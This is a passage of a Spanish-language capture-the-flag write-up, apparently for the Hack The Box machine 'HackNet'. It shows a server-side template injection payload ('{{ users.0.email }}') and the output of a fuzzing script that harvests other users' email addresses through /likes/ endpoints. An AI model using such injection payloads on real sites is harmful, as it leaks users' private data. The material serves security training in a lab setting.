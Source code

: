 Veremos varios usuarios que hemos podido filtrar, ahora vamos a probar con este `payload` y lo volveremos a ejecutar:

> payload (email)

```
{{ users.0.email }}
```

```shell
python3 fuzzIDs.py
```

Info:

```
🔍 Buscador específico del perfil /profile/37
==================================================
[*] Escaneando endpoints /like/{id} (0-100) para perfil 37...

[*] Escaneando endpoints /likes/<built-in function id> (0-100) para perfil 37...
[+] ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter@ciphermail.com"
[+] ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day@hushmail.com"
[+] ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit@exploitmail.net"
[+] ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker@ciphermail.com"
[+] ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse@securemail.org"
[+] ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse@securemail.org"
[+] ENCONTRADO: /likes/19 -> /profile/37 - title="aze@aze.fr"
[+] ENCONTRADO: /likes/23 -> /profile/37 - title="mikey@hacknet.htb"

============================================================
RESULTADOS - PERFIL 37 ENCONTRADO EN:
============================================================
Endpoint /likes/1 -> /profile/37 - title="zero_day@hushmail.com"
Endpoint /likes/12 -> /profile/37 - title="codebreaker@ciphermail.com"
Endpoint /likes/17 -> /profile/37 - title="trojanhorse@securemail.org"
Endpoint /likes/18 -> /profile/37 - title="trojanhorse@securemail.org"
Endpoint /likes/19 -> /profile/37 - title="aze@aze.fr"
Endpoint /likes/2 -> /profile/37 - title="hexhunter@ciphermail.com"
Endpoint /likes/23 -> /profile/37 - title="mikey@hacknet.htb"
Endpoint /likes/8 -> /profile/37 - title="bytebandit@exploitmail.net"

==================================================
BÚSQUEDA RÁPIDA ADICIONAL:
==================================================
[*] Búsqueda rápida del perfil 37 en endpoints /likes/...
✅ ENCONTRADO: /likes/1 -> /profile/37 - title="zero_day@hushmail.com"
✅ ENCONTRADO: /likes/2 -> /profile/37 - title="hexhunter@ciphermail.com"
✅ ENCONTRADO: /likes/8 -> /profile/37 - title="bytebandit@exploitmail.net"
✅ ENCONTRADO: /likes/12 -> /profile/37 - title="codebreaker@ciphermail.com"
✅ ENCONTRADO: /likes/17 -> /profile/37 - title="trojanhorse@securemail.org"
✅ ENCONTRADO: /likes/18 -> /profile/37 - title="trojanhorse@securemail.org"
✅ ENCONTRADO: /likes/19 -> /profile/37 - title="aze@aze.fr"
✅ ENCONTRADO: /likes/23 -> /profile/37 - title="mikey@hacknet.htb"

🎯 Búsqueda completada. Total de apariciones del perfil 37: 8
```
